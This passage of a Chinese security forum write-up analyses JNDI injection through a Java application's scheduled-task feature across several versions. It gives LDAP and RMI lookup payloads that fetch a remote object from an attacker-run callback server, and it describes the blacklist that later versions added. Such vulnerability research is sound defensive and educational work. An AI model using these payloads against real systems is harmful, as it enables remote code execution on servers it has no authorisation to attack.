 ![image-20240305232500918](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-101523cad0c31c5786433aa43c0359721ef8f30d.png)

### JNDI注入

使用yakit起一个返连服务

![image-20240305234800803](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-802a0a0d3800ab3af3bd987bae213ebd437c17a9.png)

poc：

```php
javax.naming.InitialContext.lookup('ldap://127.0.0.1:8085/calc')
```

nc监听端口

![image-20240305234715061](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a8120435c3ad4e7e8cf3b8d7d91d83b0dfe860bc.png)

![image-20240305234736910](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-be534fe80b3221bf79c520e2dd616c4af9a56ab6.png)

&lt; 4.6.2
----------

### rmi

上边的分析是拿4.6.2版本分析的，在创建定时任务时会判断目标字符串中有没有rmi关键字。后边有拐回来看一下，发现在4.6.2版本以下，在创建定时任务时是没有任何过滤的。

![image-20240306182957873](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5e1aa793587221c70971115df956c1da3ceb538b.png)

所以在补充一个rmi的poc：

```php
org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')
```

![image-20240306183633480](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-8b00327280fa2031d36f20b578f1447ccad18e00.png)

![image-20240306183659672](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-87939593ec5852516cf7b29356a42b528ccd5311.png)

&lt;4.7.0
---------

`4.6.2~4.7.1`新增黑名单限制调用字符串

- 定时任务屏蔽ldap远程调用
- 定时任务屏蔽http(s)远程调用
- 定时任务屏蔽rmi远程调用

![image-20240306185654502](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-751b82a6561244d3b75e4cc6c9f82f71eed005f3.png)

![image-20240306185736206](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cee68ee4c49d21d2f9274c60f52c5943e9506002.png)

来个小插曲，之前又看到一个文章，阅读量还不少类，师傅给出的poc是利用范围是**&lt;4.7.2**

![image-20240306191000306](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5eab99526e1cec04c0d685a2c4f849001b74445d.png)
